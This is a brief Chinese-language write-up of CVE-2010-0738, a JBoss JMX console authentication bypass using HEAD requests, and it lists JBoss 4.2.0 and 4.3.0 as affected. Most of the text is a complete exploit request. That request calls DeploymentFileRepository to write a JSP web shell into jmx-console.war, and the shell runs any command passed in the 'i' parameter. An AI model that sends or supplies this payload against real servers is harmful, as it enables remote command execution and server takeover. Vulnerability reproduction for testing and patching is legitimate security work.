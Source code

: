 # CVE-2010-0738 JBoss JMX控制台安全验证绕过漏洞

### 一、漏洞简介

这个漏洞利用方法跟CVE-2007-1036一样，不过这个是绕过了get和post传输限制，利用head传输方式发送payload

### 二、漏洞影响

jboss4.2.0 and jboss 4.3.0

### 三、复现过程

因为跟上个漏洞利用差不多，只不过用了head传输方式，我这里就直接贴payload了


```bash
HEAD /jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodIndex=6&arg0=..%2Fjmx-console.war%2F&arg1=hax0rwin&arg2=.jsp&arg3=<%Runtime.getRuntime().exec(request.getParameter("i"));%>&arg4=True HTTP/1.1

Host: hostx:portx

User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.1.9) Gecko/20100315 Firefox/3.5.9 (.NET CLR 3.5.30729)

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-us,en;q=0.5

Accept-Encoding: gzip,deflate

Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7

Keep-Alive: 300

Proxy-Connection: keep-alive
```